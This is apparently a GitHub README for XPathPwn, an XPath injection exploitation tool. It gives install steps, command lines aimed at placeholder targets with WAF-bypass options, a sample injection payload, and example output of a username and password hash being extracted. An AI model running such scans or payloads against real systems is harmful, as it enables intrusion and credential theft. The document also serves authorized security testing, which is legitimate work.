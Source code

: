# XPathPwn

<p align="center">
  <img src="https://img.shields.io/badge/version-2.0.2025-blue.svg" alt="Version">
  <img src="https://img.shields.io/badge/python-3.7+-green.svg" alt="Python">
  <img src="https://img.shields.io/badge/license-MIT-red.svg" alt="License">
  <img src="https://img.shields.io/badge/status-active-success.svg" alt="Status">
</p>

<p align="center">
  <b>Advanced XPath Injection Exploitation Tool</b><br>
  <i>Automated detection and exploitation of XPath injection vulnerabilities</i>
</p>

##  Features

- **Automatic Detection**: Identifies XPath injection vulnerabilities in web applications
- **Multiple Techniques**: Supports Union-based, Blind, and Error-based exploitation
- **Smart Recognition**: Automatically selects the best exploitation technique
- **WAF Bypass**: Built-in encoding and obfuscation techniques
- **Concurrent Extraction**: Multi-threaded blind injection for faster data retrieval
- **Comprehensive Reports**: Generates detailed JSON reports
- **Modern Payloads**: Updated for 2024 with the latest bypass techniques

##  Installation

### Requirements

- Python 3.7+
- pip

### Install from source

```bash
git clone https://github.com/skyfox-arch/xpathpwn.git
cd xpathpwn
pip install -r requirements.txt
```
**Install using pip**

```bash
pip install xpathpwn
```

## Quick Start

**Basic Usage**

```
# Basic scan
python xpathpwn.py -u http://target.com/search -p query

# POST request
python xpathpwn.py -u http://target.com/login -m POST -p username,password -d "user=test&pass=test"

# Multiple parameters
python xpathpwn.py -u http://target.com/form -p name,email,search,filter
```

**Advanced Usage**

```
# With authentication
python xpathpwn.py -u http://target.com/api -p filter -H "Authorization: Bearer token"

# Blind injection with custom indicators
python xpathpwn.py -u http://target.com/check -p id --true-string "Welcome" --false-string "Error"

# WAF bypass mode
python xpathpwn.py -u http://target.com/search -p q --waf-bypass --proxy http://127.0.0.1:8080

# Save results
python xpathpwn.py -u http://target.com/api -p search -o results.json -v
```

## Command Line Options

```
Required Arguments:
  -u, --url             Target URL
  -p, --params          Parameters to test (comma-separated)

Optional Arguments:
  -m, --method          HTTP method: GET or POST (default: GET)
  -d, --data            POST data (format: param1=value1&param2=value2)
  -H, --headers         Custom headers (can be used multiple times)
  -c, --cookies         Cookies (format: name1=value1; name2=value2)
  --proxy               Proxy URL (e.g., http://127.0.0.1:8080)
  --timeout             Request timeout in seconds (default: 10)
  --threads             Number of threads for blind injection (default: 10)

Detection Options:
  --true-string         String that indicates true condition
  --false-string        String that indicates false condition
  --technique           Injection technique: auto, union, blind, error (default: auto)

Output Options:
  -o, --output          Output file for results
  -v, --verbose         Verbose output

Advanced Options:
  --waf-bypass          Enable WAF bypass techniques
  --no-banner           Skip banner
```

## Example Output

```
 __  ______      _   _     ____                      
 \ \/ /  _ \ __ _| |_| |__ |  _ \__      ___ __  
  \  /| |_) / _` | __| '_ \| |_) \ \ /\ / / '_ \ 
  /  \|  __/ (_| | |_| | | |  __/ \ V  V /| | | |
 /_/\_\_|   \__,_|\__|_| |_|_|     \_/\_/ |_| |_| v2.0.2025
                                                  
Advanced XPath Injection Exploitation Tool
Developed by: https://github.com/skypoc
[!] Legal use only. You are responsible for your actions.

[*] Starting XPath injection scan...
[*] Target: http://vulnerable.com/search
[*] Method: GET
[*] Parameters: query

[*] Testing parameter: query
  [+] Vulnerable! Payload: ' or '1'='1

[+] Found 1 vulnerable parameter(s)

[*] Exploiting parameter: query
[*] Using technique: blind

[*] Extracting: First username
  [*] Length: 5
  [████████████████████████████████████████████████] 5/5 - admin

[*] Extracting: First password
  [*] Length: 32
  [████████████████████████████████████████████████] 32/32 - 5f4dcc3b5aa765d61d8327deb882cf99

============================================================
SCAN SUMMARY
============================================================
Target: http://vulnerable.com/search
Vulnerable Parameter: query
Total Extracted Items: 2

Extracted Data:
  First username: admin
  First password: 5f4dcc3b5aa765d61d8327deb882cf99

```

## Detection Techniques
1. Union-based Injection
Attempts to extract data using XPath union operators (|)

2. Blind Injection
Extracts data character by character using boolean conditions

3. Error-based Injection
Leverages error messages to extract information

## Advanced Features
### WAF Bypass Techniques
- Encoding: URL, HTML entity, Unicode encoding
- Case Variation: Mixed case for keywords
- Space Substitution: Comments, special characters
- Keyword Splitting: Breaking up filtered keywords

### Concurrent Extraction
Uses multi-threading to speed up blind injection:
- Parallel character extraction
- Optimized charset testing
- Binary search for length detection

## Report Format

The tool generates comprehensive JSON reports containing:
```json
{
  "scan_info": {
    "target": "http://target.com",
    "method": "GET",
    "scan_time": "2024-01-15T10:30:00",
    "vulnerable_param": "query"
  },
  "extracted_data": {
    "First username": "admin",
    "First password": "5f4dcc3b5aa765d61d8327deb882cf99"
  },
  "recommendations": [
    "Use parameterized XPath queries",
    "Implement input validation with whitelist",
    "Escape special XPath characters"
  ]
}
```

## ⚠️ Legal Disclaimer
**This tool is for educational and authorized testing purposes only.**

Users are responsible for complying with applicable laws and regulations. The developers assume no liability and are not responsible for any misuse or damage caused by this tool.

Always ensure you have explicit permission before testing any web application.

## Contributing
Contributions are welcome! Please feel free to submit a Pull Request.
- Fork the repository
- Create your feature branch (`git checkout -b feature/AmazingFeature`)
- Commit your changes (`git commit -m 'Add some AmazingFeature'`)
- Push to the branch (`git push origin feature/AmazingFeature`)
- Open a Pull Request

## License
This project is licensed under the MIT License - see the LICENSE file for details.

## Author

GitHub: @skypoc
